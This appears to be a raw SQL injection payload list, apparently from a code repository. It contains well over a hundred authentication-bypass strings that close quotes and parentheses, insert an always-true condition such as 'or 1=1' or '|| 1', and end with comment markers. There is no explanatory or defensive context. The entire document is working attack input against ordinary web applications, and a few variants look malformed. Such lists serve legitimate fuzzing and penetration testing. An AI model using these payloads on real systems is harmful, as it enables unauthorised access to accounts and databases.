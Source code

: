 ' or 1=1 --'
' or 1=1 -'
' or 1=1 #'
' or 1=1 /-'
' or 1=1 /*'
' or 1 --'
' or 1 -'
' or 1 #'
' or 1 /-'
' or 1 /*'
') or 1=1 --'
') or 1=1 -'
') or 1=1 #'
') or 1=1 /-'
') or 1=1 /*'
') or 1 --'
') or 1 -'
') or 1 #'
') or 1 /-'
') or 1 /*'
')) or 1=1 --'
')) or 1=1 -'
')) or 1=1 #'
')) or 1=1 /-'
')) or 1=1 /*'
')) or 1 --'
')) or 1 -'
')) or 1 #'
')) or 1 /*'
' || 1=1 --'
' || 1=1 -'
' || 1=1 #'
' || 1=1 /-'
' || 1=1 /*'
' || 1 --'
' || 1 -'
' || 1 #'
' || 1 /-'
' || 1 /*'
') || 1=1 --'
') || 1=1 -'
') || 1=1 #'
') || 1=1 /-'
') || 1=1 /*'
') || 1 --'
') || 1 -'
') || 1 #'
') || 1 /-'
') || 1 /*'
')) || 1=1 --'
')) || 1=1 -'
')) || 1=1 #'
')) || 1=1 /-'
')) || 1=1 /*'
')) || 1 --'
')) || 1 -'
')) || 1 #'
')) || 1 /-'
')) || 1 /*'
" or 1=1 --"
" or 1=1 -"
" or 1=1 #"
" or 1=1 /-"
" or 1=1 /*"
" or 1 --"
" or 1 -"
" or 1 #"
" or 1 /-"
" or 1 /*"
") or 1=1 --"
") or 1=1 -"
") or 1=1 #"
") or 1=1 /-"
") or 1=1 /*"
") or 1 --"
") or 1 -"
") or 1 #"
") or 1 /-"
") or 1 /*"
")) or 1=1 --"
")) or 1=1 -"
")) or 1=1 #"
")) or 1=1 /-"
")) or 1=1 /*"
")) or 1 --"
")) or 1 -"
")) or 1 #"
")) or 1 /-"
")) or 1 /*"
" || 1=1 --"
" || 1=1 -"
" || 1=1 #"
" || 1=1 /-"
" || 1=1 /*"
" || 1 --"
" || 1 -"
" || 1 #"
" || 1 /-"
" || 1 /*"
") || 1=1 --"
") || 1=1 -"
") || 1=1 #"
") || 1=1 /-"
") || 1 --"
") || 1 -"
") || 1 #"
") || 1 /-"
") || 1 /*"
")) || 1=1 --"
")) || 1=1 -"
")) || 1=1 #"
")) || 1=1 /-"
")) || 1 --"
")) || 1 -"
")) || 1 #"
")) || 1 /-"
")) || 1 /*"